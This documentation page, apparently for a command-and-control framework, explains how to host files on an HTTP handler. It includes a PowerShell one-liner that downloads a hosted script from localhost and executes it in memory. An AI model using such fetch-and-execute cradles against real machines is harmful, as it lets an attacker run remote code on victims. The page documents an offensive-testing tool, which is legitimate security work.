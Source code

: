 Hosted Files
============

Since the HTTP handler acts as a web server, it can also serve any arbitrary file.  Hosted files appear in a separate table underneath the HTTP handlers.
To host a file, click the ``Cloud`` icon next to the handler you want to host on.

.. image:: /images/hosted-files/no-files.png

The ``Handler`` drop-down is pre-populated with the one you selected, but can be changed here without having to go back.
Clicking the ``Select File`` button will open a file dialogue window to select the desired file.
Enter the URI that you want the file to be hosted at.  It does not have to be the same as the original filename.

.. image:: /images/hosted-files/dialogue.png

Once hosted, the file will appear in the table below.

.. image:: /images/hosted-files/hosted-file.png

.. code-block::

   PS C:\> iex (new-object net.webclient).downloadstring("http://localhost:8080/test"); Invoke-TestCommand
   This is a test

To remove a hosted file, simply click the red garbage icon.